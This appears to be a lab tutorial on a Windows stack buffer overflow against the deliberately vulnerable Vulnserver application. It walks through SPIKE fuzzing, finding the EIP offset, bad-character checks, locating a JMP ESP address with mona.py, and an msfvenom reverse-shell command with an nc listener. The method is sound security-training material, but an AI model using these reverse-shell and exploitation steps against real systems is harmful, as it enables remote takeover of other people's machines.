


BUFFER OVERFLOW
IN WINDOWS
The goal of this text is to explain
how to complete a buffer overflow (BoF) attack by
building a PoC in python and using it to figure out the final BoF that let us exploit the vulnerable application.
2 Great article
explaining the process and how to use SPIKE:
How spike
works: https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
How to
automatise the process: https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/
Good
explanation: https://hex-men.tech/vulnserver_buffer_overflow/
Here I'm
going to explain the process to follow, but mainly the concepts we need to
understand to complete a BoF attack.
I created the script ExploitServerEIP.py
that contains many of the required steps to be executed from the client. Each
part is commented ('''), so in order to run the phase 1 for example, we need to
remove the ''' at the beginning and the end of the section and keep the comments
for the remaining phases.
We need a Kali Linux / any Linux
used to run the scripts and to get the reverse shell once we have completed the
attack
We need a Windows system including
the Vulnserver (http://sites.google.com/site/lupingreycorner/vulnserver.zip)
and the Immunity debugger installed (https://www.immunityinc.com/products/debugger/)
Process
Start the
service / application you want to test in the server (windows). In this case we
are working with vulnserver.exe that runs in port 9999
Start the
immunity debugger in the server and attach the vulnserver.exe application (File
/ Attach and select the vulnserver.exe process). Sometimes it is required to
hit F9 to continue runnning
the process as normally it paused the execution. In the right-down corner the
debugger shows the process status (Running / Pause)
In the
client (Kali), start Wireshark to capture the traffic to understand how the
information is send / received
Start a
connection to the server and run some commands to understand how it works:
nc -nv [IPWINDOWS] 9999
#In the answer the server indicates the use of HELP to
get additional info.
#There are many commands we can execute HELP, STATS,
RTIME, LTIME,
Create a
SPIKE script to send the commands with fuzzed data. It is simple as if we
understand what information should be sent always and what we can manipulate,
the resulting script is like this:
printf("HELP 0help.spk
: "); //print to terminal command and filename
s_readline(); //print received line from server
s_string("HELP "); // send
"HELP " command to the program. Requires a space as the fuzz
will go after it
s_string_variable("INJECTION_POINT");
//send fuzzed string. At the end, the resulting string sent to the server is
HELP INJECTION_POINT
#Create a spk file for each commands supported by the server: STATS, RTIME, etc. Assign
a sequence number to the filename so when it is restarted, it could continue
from the last tested and not from the beginning.
#For each command wanted to be tested a separate SPIKE
script is required. If there are multiple fields in the same page or call to
the server, then they can be tested in one script. But different values in the
same field / command requires a script for each one.
Run the
SPIKE script to look for overflows:
generic_send_tcp [ip] [port] [script.spk] 0 0
Spike send a predeterminate list of strings each time
replacing the string variable "INJECTION_POINT" by predetermined
injection chars already preconfigured in spike by default. The 0 indicates
where to start from the predetermined file and where to stop. To run all by
default use 0 0
Check how the server goes in the debugger to identify
any issue / crash
Continue playing with the scripts.
You can create a shell / wrapper file to call the generic_send_tcp with each script. This shell should
identify when the server stops working.
I used a perl script called fuzzingall.pl copied from the article
but it can be a .sh file
Run it:
./fuzzingall.pl [ip] [port] 0 0 0
To start in
any specific (6): ./fuzzingall.pl [ip] [port] 6 0 0
Identify what
is causing the crash
Check the network capture and the scripts to validate
what input caused the server to crash. Restart the server and run the specific
call with the string that caused the BOF.
I created a python file with all the phases we need to
run (ExploirServerEIP.py). In this case, use the phase 1 to test this part.
Based on the identification of the command causing the
crash, try to use the content into the python script part 1 to validate it is
the right one. If putting the same information the server crash, then try to
identify the approximate length causing the crash with the script part 2.
The
most important part to have in mind is to identify if the crash give us a way to manipulate the memory registers. If so,
this means we can inject a shellcode and make the program to go to the place
in memory where the shellcode is to exploit the server.
We need to identify what information is stored in each
register at the crash moment to see how can we
manipulate the string we sent. This will let us build the exploit in the right
way.
Identify the
offset
Identify the exact size of the buffer where the program crashes by creating an special string with metasploit
framework pattern_create (locate pattern_create).
In my case I had to run it in this way:
/opt/metasploit-framework/embedded/bin/ruby
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l
5000
In
other Kali: msf-pattern_create -l [LENGHT]
msf-pattern_create
-l [LENGTH]
#This can also be generated using mona.py in Immunity
Debugger but I will not show here the details.
#Phase 3 of the python script help us to identify this
task.
Restart the vulnserver in
windows from the debugger (ctrl-F2) and run the
python script Phase 2 using the pattern we got. Once the server crash, check
the value in the registers (right side in immunity), specially the EIP value.
In this case it is 386F4337
Calculate the offset for this EIP value using
/opt/metasploit-framework/embedded/bin/ruby
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -l
[length] -q 386F4337
In
oother kali: msf-pattern_offset
-l [length] -q 386F4337
=> [*] Exact match at offset 2003
Confirm the EIP can be manipulated by us:
Using the Part 3 of the python we can select the value
we want to left in the EIP based on the identified
offset. Run the script and validate we have control of the EIP.
Identify
"bad characters" not accepted by the application.
Part 4 of the script checks if the application has
some "bad characters".
After running the exploit, observe the ESP value
(right pane) and the stack (right down) to validate all the "badchars" sent were included. They should be observed
as a sequence (04030201 ). We can also observe the details in the down-left
side by right-clicking the ESP or stack and selecting follow in dump to see it
better. If there are some bad chars, then the hexa
value will not be showed in the sequence. We need to remove it from the badchars string and run it again. In this way we can
identify and remove all bad chars.

Detect the
right address to use in the EIP
In this specific case, we observed that the we can left anything we want into the ESP. So we can
create a reverse shell string and replace the badchar
string by this value. This part will be completed in the next part.
Now that we have where to left
the shellcode, we need to instruct the program to go to that place (ESP). So
now we need to send the instruction JMP ESP to the program. How? As we can
manipulate the EIP, we need to look where we can find a JMP ESP instruction and
point the EIP to that address.
We will use mona.py in Immunity Debugger to complete
this part.
To detect if
there are unprotected modules we can use to get an address with this operation
we need to use mona.py. It works with Inmmunity
Debugger and WinDBG (https://github.com/corelan/mona).
Download and copy the file into Immunity Debugger\PyCommands
For Ghidra x64dbg is more complicated: https://github.com/x64dbg/mona
More details about mona: https://www.corelan-training.com/
To run mona, in Immunity Debugger run the command in
the textbox in the downside of the debugger. Just write:
!mona modules
#In this case essfunc.dll is found
# Identify which modules have less protections active
from the process running.
# To know the op codefor
JUMP ESP we can use msf-nasm_shell. Run it and put
JMP ESP to identify the op code
msf-nasm_shell
>JMP ESP
In other Kali is: /opt/metasploit-framework/embedded/bin/ruby
/opt/metasploit-framework/embedded/framework/tools/exploit/nasm_shell.rb
We got "FFE4"
# Now we need to look for the instruction JMP ESP
("\xff\xe4") in
the memory for any of these unprotected modules
!mona find -s "\xff\xe4" -m "essfunc.dll" => -s is the byte string to search for, -m specifies the module to search in
#9 occurrences were found.

625011AF FFE4 JMP ESP
In this case, we need to put this address (625011AF)
in the EIP so the program will go to it and run JMP ESP and then it will start
running the shellcode we have there!
Generate and
run the shellcode
In a terminal window in Linux run the listener to
receive the reverse shell:
nc -nvpl 443
Now let's prepare the shell.
This shellcode should not contain bad chars (if we found any)
Using msvenom in Linux, we
can create it without the previously identified badchars.
At least \x00 (null) should be included. -f specifies
the language (c, py, pl, )
The EXITFUNC=Thread is used to avoid the program to
terminate when we finish the shell. This will close only the thread used by the
shell.
msfvenom -p windows/shell_reverse_tcp LHOST=[IP KALI] LPORT=443 EXITFUNC=
thread -f py -e x86/shikata_ga_nai -b "\x00"
Now we have all the pieces we need:
Offset (2003
in this case)
Address we
want to overwrite in the EIP (observe we need to include it in little indian notation for x86: "\xaf\x11\x50\x62"
the pattern
string (shellcode) we want to inject and run.
Run the python script Part 5 to inject the shellcode.
We need to add some nops
before the shell as sometimes the execution of the shell modifies some parts
that could affect it. Sometimes 10 or 12 or 16 could be ok, but it is something
to play with if the shell did not start.
To be sure the shell is loaded in the ESP, we can
create a breakpoint in the address where the JMP ESP is located (625011AF) so
the program will pause in that point. We can observe the ESP value and the
memory to validate the shellcode is there and it is complete.

After running it we got the shell ..